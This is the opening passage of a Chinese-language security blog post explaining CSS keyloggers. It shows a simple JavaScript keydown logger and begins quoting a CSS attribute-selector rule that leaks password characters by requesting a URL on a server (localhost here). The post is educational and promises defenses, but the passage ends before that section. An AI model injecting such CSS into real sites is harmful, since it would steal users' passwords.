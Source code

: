 ```yaml
---
title: CSS keylogger：攻擊與防禦 
date: 2018-03-02 20:18:02
tags: css,key logger
author: huli
---
```


# 前言

前陣子在 Hacker News 上面看到這篇：[Show HN: A CSS Keylogger](https://news.ycombinator.com/item?id=16422696)，大開眼界，決定要找個時間好好來研究一下，並且寫一篇文章分享給大家。

這篇會講到以下東西：

1. 什麼是 keylogger
2. CSS keylogger 的原理
3. CSS keylogger 與 React
4. 防禦方法

好，那就讓我們開始吧！

# Keylogger 是什麼？

Keylogger 就是鍵盤側錄，是惡意程式的一種，拿來記錄你電腦上面所有按過的按鍵。還記得我小時候曾經用 VB6 寫了一個超簡單的 keylogger，只要呼叫系統提供的 API 並且記錄相對應的按鍵就好。

在電腦上面被裝這個的話，就等於你輸入的任何東西都被記錄起來。當然，也包含了帳號跟密碼。不過如果我沒記錯，防毒軟體的行為偵測應該可以把這些都擋掉，所以也不用太過擔心。

剛剛講的是在電腦上面，現在我們把範圍縮小，侷限在網頁。

如果你要在頁面上加一個 keylogger，通常會利用 JavaScript 來達成，而且程式碼超級簡單：

``` js
document.addEventListener('keydown', e => {
  console.log(e.key)
})
```

只要偵測`keydown`事件並且抓出按下的 key 就行了。

不過假如你有能力在你想入侵的網頁上面加入 JavaScript 的話，通常也不需要這麼麻煩去記錄每個按鍵，你直接把 Cookie 偷走、竄改頁面、導到釣魚頁面，或者是在 submit 的時候把帳號密碼回傳給自己的 Server 就好，所以 keylogger 顯得不是那麼有用。

好，那假設我們現在沒辦法插入惡意的 JavaScript，只能改 CSS，有辦法用純 CSS 做出一個 keylogger 嗎？

有，畢竟 CSS 能做的事情[可多了](https://github.com/you-dont-need/You-Dont-Need-JavaScript)。

# 純 CSS keylogger 的原理

直接看程式碼你就懂了（取自：[maxchehab/CSS-Keylogging](https://github.com/maxchehab/CSS-Keylogging)）：

``` css
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```
